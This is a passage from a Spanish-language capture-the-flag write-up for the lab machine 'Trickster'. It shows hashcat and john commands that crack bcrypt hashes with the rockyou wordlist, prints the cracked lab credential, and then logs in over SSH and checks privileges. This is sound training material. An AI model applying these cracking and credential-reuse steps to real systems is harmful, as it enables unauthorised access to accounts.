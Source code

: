 Identificamos los hashes:
```bash
➜  Trickster hashcat credentials 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Custom APU 0405, 6360/12785 MB (2048 MB allocatable), 8MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce


```

Creds :
Crackeamos las passwords con hashcat o john 
```bash
john credentials --wordlist=/usr/share/wordlists/rockyou.txt
hashcat -m 3200  credentials /usr/share/wordlists/rockyou.txt 
```

```bash
james : alwaysandforever
```

## User James
Nos logeamos por ssh
```bash
➜  Trickster ssh james@trickster.htb
The authenticity of host 'trickster.htb (10.10.11.34)' can't be established.
ED25519 key fingerprint is SHA256:SZyh4Oq8EYrDd5T2R0ThbtNWVAlQWg+Gp7XwsR6zq7o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'trickster.htb' (ED25519) to the list of known hosts.
james@trickster.htb's password: 
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@trickster:~$ whoami
james
james@trickster:~$ 
```
Sudo -l :
```bash
james@trickster:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on trickster.
```
